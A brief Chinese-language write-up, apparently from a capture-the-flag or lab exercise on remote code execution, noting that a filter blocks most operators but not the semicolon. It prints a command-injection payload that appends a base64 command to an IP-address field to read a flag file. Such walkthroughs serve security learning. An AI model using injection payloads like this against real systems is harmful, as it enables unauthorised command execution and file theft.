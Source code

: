 ![image-20240817151126803](远程代码执行/image-20240817151126803.png)		

通过源码分析过滤了很多运算符，唯独没有过滤;

并且由于过滤了管道符|,那么用另一种写法来base64编码该文件。然后解码即可获得结果。

```
payload:
127.0.0.1;base64 flag_325321801915751.php
```
